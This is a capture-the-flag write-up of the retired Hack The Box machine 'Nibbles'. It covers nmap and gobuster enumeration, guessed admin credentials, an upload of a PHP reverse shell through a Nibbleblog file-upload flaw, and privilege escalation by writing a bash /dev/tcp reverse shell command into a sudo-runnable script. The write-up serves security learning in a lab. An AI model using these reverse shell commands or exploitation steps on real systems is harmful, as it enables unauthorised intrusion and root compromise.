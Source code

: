 ```yaml
---
title: "HTB: Nibbles Writeup"
date: 2025-08-20 08:00:00 +0000
categories: [CTF, HTB]
tags: [ctf, htb, easy, enumeration, privilege-escalation, web, linux]
author: "Saad Azil"
pin: false
---
```


![Nibbles Box](/assets/images/nibbles/NIBBLES.png)

**OS:** Linux  
**Difficulty:** Easy  
**Machine IP:** 10.10.10.75

Nibbles is a retired box on Hack The Box that provides a great introduction to common enumeration techniques, web application exploitation, and privilege escalation through file misconfigurations.

---

## Enumeration

The first step is to scan the target machine with `nmap` to identify open ports and services.

```bash
nmap -sV -sC -oN nmap_scan 10.10.10.75
```

![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

The scan reveals two open ports:
- **Port 22:** SSH
- **Port 80:** HTTP

Before exploring the web server, I added the machine's IP to my `/etc/hosts` file to access it by its domain name, `nibbles.htb`.

![Domain Name](/assets/images/nibbles/domain_name.png)

Navigating to `http://nibbles.htb` in a browser initially shows a blank page. However, viewing the page's source code reveals a hidden directory: `/nibbleblog/`.

![Source Page](/assets/images/nibbles/source_page.png)

This directory leads to a blog powered by Nibbleblog.

![Blog Page](/assets/images/nibbles/blog_page.png)

To find more hidden files or directories, I used `gobuster`:

```bash
gobuster dir -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt
```

![Dir Enum Result](/assets/images/nibbles/dir_enum_result.png)

The `README` file reveals the Nibbleblog version: `v4.0.3`.

![Readme](/assets/images/nibbles/readme.png)

A quick search for this version reveals a critical vulnerability: **Arbitrary File Upload**. To exploit this, we need to gain access to the admin panel. After some guessing, I found the credentials to be:

- **Username:** `admin`
- **Password:** `nibbles`

## Gaining a Foothold

With admin access, I could now exploit the file upload vulnerability. The goal is to upload a reverse shell. I used a common PHP reverse shell script.

1.  **Login** to the admin panel at `http://nibbles.htb/nibbleblog/admin.php`.
2.  Navigate to **Plugins** → **My Image**.
3.  **Upload** the PHP reverse shell.

![Reverse Shell Upload](/assets/images/nibbles/reverse_shell.png)

Once the shell is uploaded, set up a Netcat listener on your local machine:

```bash
nc -lvnp 6666
```

Then, access the uploaded shell at `http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php` to trigger the connection.

![Get Shell](/assets/images/nibbles/get_shell.png)

I upgraded the shell for better stability:

```bash
script /dev/null -c bash
```

![Shell Upgrade](/assets/images/nibbles/shell_upgrade.png)

Now, as the `nibbler` user, I can grab the user flag from the home directory.

![First Flag](/assets/images/nibbles/first_flag.png)

---

## Privilege Escalation

To escalate privileges, I checked for `sudo` permissions:

```bash
sudo -l
```

![sudo](/assets/images/nibbles/sudo-l.png)

The output shows that the `nibbler` user can run `/home/nibbler/personal/stuff/monitor.sh` as `root` without a password.

I found a `personal.zip` file in the user's home directory, which I unzipped to find the `monitor.sh` script.

![Unzip The File](/assets/images/nibbles/the_zip_file.png)

Since I have write permissions on the script, I can overwrite it with a payload to get a root shell. I echoed a new reverse shell command into the script:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![overwrote](/assets/images/nibbles/overrideFile.png)

I started another Netcat listener on port `6666` and executed the script with `sudo`:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![run the reverse shell](/assets/images/nibbles/run_the_reverse_shell.png)

This provides a root shell.

![get the root shell](/assets/images/nibbles/get_root_shell.png)

Finally, I could read the root flag.

![root flag](/assets/images/nibbles/root_flag.png)

And we are done!